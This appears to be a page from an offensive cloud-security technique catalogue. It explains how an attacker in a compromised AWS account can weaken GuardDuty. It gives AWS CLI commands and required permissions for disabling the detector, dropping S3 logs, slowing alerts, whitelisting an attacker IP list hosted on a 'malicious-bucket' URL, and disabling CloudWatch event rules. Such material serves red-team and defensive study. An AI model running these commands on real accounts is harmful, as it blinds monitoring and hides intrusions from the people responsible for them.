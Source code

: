 ```yaml
---
author: Ben Leembruggen
title: Modify GuardDuty Configuration
description: Modify existing GuardDuty configurations in the target account to hinder alerting and remediation capabilities.
---
```


When an account has been successfully compromised, an attacker can modify threat detection services like GuardDuty to reduce the likelihood of their actions triggering an alert.  Modifying, as opposed to outright deleting, key attributes of GuardDuty may be less likely to raise alerts, and result in a similar degradation of effectiveness.  The actions available to an attacker will largely depend on the compromised permissions available to the attacker, the GuardDuty architecture and the presence of higher level controls like Service Control Policies. 

## GuardDuty
Where GuardDuty uses a delegated admin or invite model, features like detector configurations and IP Trust lists are centrally managed, and so only able to be modified in the GuardDuty administrator account.  Where this is not the case, these features can be modified in the account that GuardDuty is running in.

---
### Misconfiguring the Detector
An attacker could modify an existing GuardDuty detector in the account, to remove logs sources or lessen its effectiveness.

Configuration changes may include a combination of:
- Disabling the detector altogether.
- Removing Kubernetes and s3 as data sources, which removes all [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html).
- Increasing the event update frequency to 6 hours, as opposed to as low as 15 minutes.


#### Required Permissions to execute:
- guardduty:ListDetectors
- guardduty:UpdateDetector

Example CLI commands
```
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```
---
### Modifying Trusted IP Lists
An attacker could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html), including their own IP on the list.  Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them. 

<i> DNS findings are exempt from the Trusted IP list </i>

#### Required Permissions to execute:
- guardduty:ListDetectors
- guardduty:ListIPSet
- iam:PutRolePolicy
- guardduty:CreateIPSet (To create new list)
- guardduty:UpdateIPSet (To update an existing list)

<i> Depending on the level of stealth required, the file can be uploaded to an s3 bucket in the target account, or an account controlled by the attacker. </i>


Example CLI commands
```
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

---
### Modify Cloudwatch events rule
GuardDuty populates its findings to Cloudwatch Events on a 5 minute cadence.  Modifying the Event pattern or Targets for an event may reduce GuardDuty's ability to alert and trigger auto-remediation of findings, especially where the remediation is triggered in a member account - as GuardDuty administrator protections do not extend to the Cloudwatch events in the member account. 

!!! Note  
In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

#### Required Permissions to execute:
- event:ListRules
- event:ListTargetsByRule
- event:PutRule
- event:RemoveTargets

Example CLI commands
```
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
--event-pattern "{\"source\":[\"aws.guardduty\"]}" \
--state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
--event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets --name guardduty-event \
--ids "GuardDutyTarget"
```